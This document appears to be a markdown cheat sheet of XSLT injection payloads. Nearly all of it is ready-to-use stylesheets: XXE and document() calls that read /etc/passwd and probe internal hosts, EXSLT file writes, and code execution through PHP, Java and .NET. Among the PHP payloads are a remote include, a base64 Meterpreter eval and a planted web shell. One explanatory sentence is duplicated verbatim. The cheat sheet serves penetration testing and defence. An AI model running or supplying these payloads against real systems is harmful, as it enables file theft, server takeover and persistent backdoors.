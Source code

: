 # XSLT Injection

> Processing an un-validated XSL stylesheet can allow an attacker to change the structure and contents of the resultant XML, include arbitrary files from the file system, or execute arbitrary code

## Summary

- [Summary](#summary)
- [Tools](#tools)
- [Exploit](#exploit)
    - [Determine the vendor and version](#determine-the-vendor-and-version)
    - [External Entity](#external-entity)
    - [Read files and SSRF using document](#read-files-and-ssrf-using-document)
    - [Write files with EXSLT extension](#write-files-with-exslt-extension)
    - [Remote Code Execution with PHP wrapper](#remote-code-execution-with-php-wrapper)
    - [Remote Code Execution with Java](#remote-code-execution-with-java)
    - [Remote Code Execution with Native .NET](#remote-code-execution-with-native-net)
- [References](#references)

## Tools

## Exploit

### Determine the vendor and version

```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/fruits">
	<xsl:value-of select="system-property('xsl:vendor')"/>
  </xsl:template>
</xsl:stylesheet>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body>
<br />Version: <xsl:value-of select="system-property('xsl:version')" />
<br />Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br />Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
</body>
</html>
```

### External Entity

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE dtd_sample[<!ENTITY ext_file SYSTEM "C:\secretfruit.txt">]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/fruits">
    Fruits &ext_file;:
    <!-- Loop for each fruit -->
    <xsl:for-each select="fruit">
      <!-- Print name: description -->
      - <xsl:value-of select="name"/>: <xsl:value-of select="description"/>
    </xsl:for-each>
  </xsl:template>
</xsl:stylesheet>
```

### Read files and SSRF using document

```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/fruits">
    <xsl:copy-of select="document('http://172.16.132.1:25')"/>
    <xsl:copy-of select="document('/etc/passwd')"/>
    <xsl:copy-of select="document('file:///c:/winnt/win.ini')"/>
    Fruits:
	    <!-- Loop for each fruit -->
    <xsl:for-each select="fruit">
      <!-- Print name: description -->
      - <xsl:value-of select="name"/>: <xsl:value-of select="description"/>
    </xsl:for-each>
  </xsl:template>
</xsl:stylesheet>
```


### Write files with EXSLT extension

EXSLT, or Extensible Stylesheet Language Transformations, is a set of extensions to the XSLT (Extensible Stylesheet Language Transformations) language. EXSLT, or Extensible Stylesheet Language Transformations, is a set of extensions to the XSLT (Extensible Stylesheet Language Transformations) language. 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:exploit="http://exslt.org/common" 
  extension-element-prefixes="exploit"
  version="1.0">
  <xsl:template match="/">
    <exploit:document href="evil.txt" method="text">
      Hello World!
    </exploit:document>
  </xsl:template>
</xsl:stylesheet>
```


### Remote Code Execution with PHP wrapper

Execute the function `readfile`.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body>
<xsl:value-of select="php:function('readfile','index.php')" />
</body>
</html>
```

Execute the function `scandir`.

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" version="1.0">
  <xsl:template match="/">
    <xsl:value-of name="assert" select="php:function('scandir', '.')"/>
  </xsl:template>
</xsl:stylesheet>
```

Execute a remote php file using `assert`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body style="font-family:Arial;font-size:12pt;background-color:#EEEEEE">
  <xsl:variable name="payload">
    include("http://10.10.10.10/test.php")
  </xsl:variable>
  <xsl:variable name="include" select="php:function('assert',$payload)"/>
</body>
</html>
```

Execute a PHP meterpreter using PHP wrapper.

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" version="1.0">
  <xsl:template match="/">
    <xsl:variable name="eval">
      eval(base64_decode('Base64-encoded Meterpreter code'))
    </xsl:variable>
    <xsl:variable name="preg" select="php:function('preg_replace', '/.*/e', $eval, '')"/>
  </xsl:template>
</xsl:stylesheet>
```

Execute a remote php file using `file_put_contents`

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" version="1.0">
  <xsl:template match="/">
    <xsl:value-of select="php:function('file_put_contents','/var/www/webshell.php','&lt;?php echo system($_GET[&quot;command&quot;]); ?&gt;')" />
  </xsl:template>
</xsl:stylesheet>
```

### Remote Code Execution with Java

```xml
  <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime" xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object">
    <xsl:template match="/">
      <xsl:variable name="rtobject" select="rt:getRuntime()"/>
      <xsl:variable name="process" select="rt:exec($rtobject,'ls')"/>
      <xsl:variable name="processString" select="ob:toString($process)"/>
      <xsl:value-of select="$processString"/>
    </xsl:template>
  </xsl:stylesheet>
```

```xml
<xml version="1.0"?>
<xsl:stylesheet version="2.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:java="http://saxon.sf.net/java-type">
<xsl:template match="/">
<xsl:value-of select="Runtime:exec(Runtime:getRuntime(),'cmd.exe /C ping IP')" xmlns:Runtime="java:java.lang.Runtime"/>
</xsl:template>.
</xsl:stylesheet>
```

### Remote Code Execution with Native .NET

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:App="http://www.tempuri.org/App">
    <msxsl:script implements-prefix="App" language="C#">
      <![CDATA[
        public string ToShortDateString(string date)
          {
              System.Diagnostics.Process.Start("cmd.exe");
              return "01/01/2001";
          }
      ]]>
    </msxsl:script>
    <xsl:template match="ArrayOfTest">
      <TABLE>
        <xsl:for-each select="Test">
          <TR>
          <TD>
            <xsl:value-of select="App:ToShortDateString(TestDate)" />
          </TD>
          </TR>
        </xsl:for-each>
      </TABLE>
    </xsl:template>
</xsl:stylesheet>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="urn:my-scripts">

<msxsl:script language = "C#" implements-prefix = "user">
<![CDATA[
public string execute(){
System.Diagnostics.Process proc = new System.Diagnostics.Process();
proc.StartInfo.FileName= "C:\\windows\\system32\\cmd.exe";
proc.StartInfo.RedirectStandardOutput = true;
proc.StartInfo.UseShellExecute = false;
proc.StartInfo.Arguments = "/c dir";
proc.Start();
proc.WaitForExit();
return proc.StandardOutput.ReadToEnd();
}
]]>
</msxsl:script>

  <xsl:template match="/fruits">
  --- BEGIN COMMAND OUTPUT ---
	<xsl:value-of select="user:execute()"/>
  --- END COMMAND OUTPUT ---	
  </xsl:template>
</xsl:stylesheet>
```


## References

- [From XSLT code execution to Meterpreter shells - Nicolas Grégoire (@agarri) - July 2, 2012](https://www.agarri.fr/blog/archives/2012/07/02/from_xslt_code_execution_to_meterpreter_shells/index.html)
- [XSLT Injection - Fortify - January 16, 2021](http://web.archive.org/web/20210116001237/https://vulncat.fortify.com/en/detail?id=desc.dataflow.java.xslt_injection)
- [XSLT Injection Basics - Saxon - Hunnic Cyber Team - August 21, 2019](http://web.archive.org/web/20190821174700/https://blog.hunniccyber.com/ektron-cms-remote-code-execution-xslt-transform-injection-java/)
- [Getting XXE in Web Browsers using ChatGPT - Igor Sak-Sakovskiy - May 22, 2024](https://swarm.ptsecurity.com/xxe-chrome-safari-chatgpt/)
- [XSLT injection lead to file creation - PT SWARM (@ptswarm) - May 30, 2024](https://twitter.com/ptswarm/status/1796162911108255974/photo/1)